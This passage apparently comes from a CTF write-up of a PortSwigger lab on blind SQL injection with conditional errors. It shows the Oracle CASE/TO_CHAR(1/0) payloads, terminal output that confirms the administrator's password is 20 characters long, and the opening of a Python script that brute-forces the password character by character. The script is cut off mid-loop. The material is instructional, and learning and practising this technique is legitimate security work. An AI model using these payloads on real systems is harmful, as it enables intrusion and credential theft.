 **Armed with above information, we can find `administrator`'s `username` and brute force the `password`!**
```py
payload = f"""{trackingid}'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"""
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred
```

**If 1 is equals 1 (Which always does), then it'll trigger a divide-by-zero error.**

**Now we can confirm there is a `username` column and `administrator` is a valid username.**

**Then, we could find the length of `administrator` password:**
```py
# Payload 1:
payload = f"""{trackingid}'||(SELECT CASE WHEN LENGTH(password)>19 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"""

# Payload 2:
payload = f"""{trackingid}'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"""
```

```
# Payload 1:
# 20 > 19
# 20 is greater than 19
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred

# Payload 2:
# 20 > 20
# 20 NOT greater than 20
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
No error
```

**As you can see, we have no error when the length of the password is greater than 20, which means `administrator` password length is 20.**

**Next, we can brute force `administrator` password!**
```py
#!/usr/bin/env python3

import requests
from string import ascii_lowercase, digits

def main():
	url = 'https://0ab600a003b6a83bc3051eae001f006b.web-security-academy.net/'
	trackingid = 'YOUR_TRACKINGID'

	chars = ascii_lowercase + digits
	position = 1
	password = ''

	try:
		while True:
			for character in chars:
				payload = f"""{trackingid}'||(SELECT CASE WHEN SUBSTR(password,{position},1)='{character}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"""

```